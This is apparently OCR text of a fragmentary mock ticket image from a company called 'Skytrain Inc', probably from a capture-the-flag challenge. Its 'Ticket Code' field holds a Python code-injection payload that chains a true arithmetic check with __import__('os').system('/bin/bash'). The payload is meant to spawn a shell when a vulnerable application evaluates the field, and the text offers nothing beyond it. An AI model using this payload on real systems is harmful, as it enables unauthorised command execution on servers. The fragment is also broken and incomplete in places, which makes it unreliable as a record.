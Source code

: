 # Skytrain Inc
## Ticket to 
__Ticket Code:__
**102+ 1 == 103 and __import__('os').system('/bin/bash') == FALSE
